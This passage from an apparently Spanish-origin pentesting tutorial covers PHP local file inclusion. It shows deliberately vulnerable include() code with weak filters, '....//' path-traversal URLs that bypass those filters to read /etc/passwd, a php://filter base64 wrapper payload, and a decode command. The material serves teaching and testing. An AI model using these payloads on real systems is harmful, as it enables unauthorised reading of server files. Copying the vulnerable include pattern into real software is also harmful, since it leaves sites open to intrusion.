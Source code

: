 Also in *older versions of PHP*, in case of filters like 'make sure that the last 6 characters of the input is not passwd':

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    if(substr($filename, -6, 6) != "passwd") {
        include($filename);
    }
?>
```

We can bypass it like this:

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd/.
```

Also in *older versions of PHP*, in case of filters like 'I want the file to end with the extension .txt':

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    if(substr($filename, -4, 4) != ".txt") { // Esto hace alusion a los ultimos 4 caracteres de la cadena de texto
        include($filename);
    }
?>
```

It would also be bypassed as in the previous case:

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd/.
```

## Wrappers

We can use the wrapper *php://filter* to represent the same data contained in the file as *base64*, among others

```
http://localhost/index.php?filename=php://filter/convert.base64-encode/resource=/etc/passwd
```

The resulting *base64* string can be saved in a file (in this case we will call it 'myFile') and converted to plain text in this way:

```shell
# The 'sponge' command is used to put the result in the same file
cat data | base64 -d | sponge data
```
